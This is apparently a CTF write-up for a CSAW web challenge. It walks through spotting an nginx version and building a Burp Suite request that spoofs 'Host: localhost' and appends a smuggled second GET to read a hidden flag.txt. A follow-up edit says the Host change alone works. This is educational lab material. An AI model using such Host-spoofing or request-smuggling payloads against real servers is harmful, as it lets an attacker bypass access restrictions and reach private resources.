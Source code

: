 It is acutally a web vulnerability problem. 
A link was there
[http://web.csaw.io:3009/](http://web.csaw.io:3009/)
After going to the link:
![[Pasted image 20230916214002.png]]
After clicking hint, this page was shown
![[Pasted image 20230916214118.png]]
After using the inspect and going to network:
![[Pasted image 20230916214416.png]]
Here, we can see the server is 
Server: nginx/1.17.6
So, putting it into the form we were directed to this page:
![[Pasted image 20230916214604.png]]
After searching online I found this vulnerability CVE:
https://nvd.nist.gov/vuln/detail/cve-2019-20218#match-8411509
So, after researching a bit, I found out that the vulnerability is  using the redirection to move to private/hidden pages of the site.

When we click on the flag text(http://localhost:3009/flag.txt) in the webpage we are shown:
![[Pasted image 20230916215121.png]]
So, its hidden.

According to the hint, we can access the site by being the localhost.
So, after searching online on how to use this vulnerability, I found out a video where it is similar to our problem.
https://www.youtube.com/watch?v=jimGQpftYWs
After that, I searched online again it the way he did was not working
After searching, I found out a site where he demostrate how to redirection works.
So, I opened burpsuite and written the following thing in the repeater:
```
GET /flag.txt HTTP/1.1
Host: localhost:3009
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://web.csaw.io:3009/flag.txt
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3A7rBkPQHP4_5pRN_fo7Wm4myKEdLnZcbZ.TtmQ0CzsUUSN%2BDd%2Bu2hSnfmn4jsFL1bHjzPXzHSmDdw
Connection: keep-alive
Content-Length: 39

GET /flag.txt HTTP/1.1
Host: localhost
```
Most of it is copied from interceptor. I just put `/flag.txt` insted of `/ ` in `GET /flag.txt HTTP/1.1`
then, I changed `Host: web.csaw.io:3009` to `Host: localhost:3009`
and `Referer: http://web.csaw.io:3009/` to `Referer: http://web.csaw.io:3009/flag.txt`

and finally changed `Connection: close` to `Connection: keep-alive`
and added the following part 
```
GET /flag.txt HTTP/1.1
Host: localhost
```

The result from the repeater is:
![[Pasted image 20230916220128.png]]
Therefore, the flag is:
`csawctf{d0nt_smuggl3_Fla6s_!}`


Edit:
Only this part is required:
```
GET /flag.txt HTTP/1.1
Host: localhost:3009
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://web.csaw.io:3009/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3A7rBkPQHP4_5pRN_fo7Wm4myKEdLnZcbZ.TtmQ0CzsUUSN%2BDd%2Bu2hSnfmn4jsFL1bHjzPXzHSmDdw
Connection: keep-alive
Content-Length: 0
```
Only the change in `/flag.txt` insted of `/ ` in `GET /flag.txt HTTP/1.1` 
and `Host: web.csaw.io:3009` to `Host: localhost:3009` is required.




